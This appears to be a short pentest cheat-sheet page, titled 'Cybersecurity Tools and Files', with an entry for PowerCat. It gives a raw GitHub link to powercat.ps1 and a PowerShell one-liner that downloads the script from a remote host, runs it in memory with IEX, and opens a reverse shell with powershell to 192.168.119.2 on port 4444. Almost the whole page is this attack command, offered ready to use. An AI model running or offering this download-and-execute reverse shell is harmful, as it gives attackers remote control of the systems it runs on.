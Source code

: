 # Cybersecurity Tools and Files

PowerCat

```bash
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```
